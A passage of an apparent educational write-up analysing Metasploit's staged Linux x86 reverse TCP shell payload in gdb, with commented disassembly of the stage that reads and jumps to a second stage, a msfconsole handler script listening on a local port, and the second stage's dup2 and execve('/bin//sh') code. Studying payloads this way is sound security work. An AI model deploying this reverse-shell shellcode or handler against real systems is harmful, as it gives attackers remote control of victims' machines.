 ```nasm

   ; man read
   ; ssize_t read(int fd, void *buf, size_t count);
   ; Used to read count bytes from fd into the buffer pointed by *buf
   ; It will read from sockfd the second stage payload and copy it 
   ; at the memory address of the top of the stack
   0x0040409f <+95>:	pop    ebx		      ; EBX set to 5 
						      ; last push at 0x0040407a
   0x004040a0 <+96>:	mov    ecx,esp		      ; ECX point to the top of the stack
   0x004040a2 <+98>:	cdq                           ; set EDX to 0
   0x004040a3 <+99>:	mov    dh,0xc                 ; count (EDX) set to 3072
   0x004040a5 <+101>:	mov    al,0x3		      ; read syscall number
   0x004040a7 <+103>:	int    0x80

   0x004040a9 <+105>:	test   eax,eax                ; test if an error occured
   0x004040ab <+107>:	js     0x4040af <payload+111> ; On error jump to exit syscall

   0x004040ad <+109>:	jmp    ecx		      ; else jump to ECX 
						      ; that point to the second stage payload code

   ; exit(1)
   0x004040af <+111>:	mov    eax,0x1                ; exit syscall number
   0x004040b4 <+116>:	mov    ebx,0x1                ; exit return value
   0x004040b9 <+121>:	int    0x80
```
Then using the following metasploit script, we launch msfconsole to handle it before continuing in gdb :
```plaintext
root@kali:~# cat staged-reverse.rc 
use exploit/multi/handler
set payload linux/x86/shell/reverse_tcp
set lhost 127.0.0.1
set lport 1337
exploit -j -z

msfconsole -r staged-reverse.rc
```

And finally we come back to analyse the second stage payload :
```nasm
(gdb) break *0x004040ad			//   0x004040ad <+109>:	jmp    ecx
(gdb) continue
(gdb) x/19i $ecx


   0xbffff284:	mov    ebx,edi        ; set EBX to sockfd
				      ; Remember it was saved in EDI in the first stage	
	
   0xbffff286:	push   0x2   
   0xbffff288:	pop    ecx	      ; ECX set to 2

   ; dup2 loop to overwrite stdin/stdout/stderr with sockfd
   0xbffff289:	push   0x3f           
   0xbffff28b:	pop    eax	      ; dup2 syscall number
   0xbffff28c:	int    0x80

   0xbffff28e:	dec    ecx            ; decrement ECX
   0xbffff28f:	jns    0xbffff289     ; jump to next dup2 if ECX >= 0 

   ; execve("/bin//sh", ["/bin//sh"], null)
   0xbffff291:	push   0xb	      
   0xbffff293:	pop    eax            ; execve syscall number
   0xbffff294:	cdq                   ; set EDX to 0
   0xbffff295:	push   edx	      ; push string terminator
```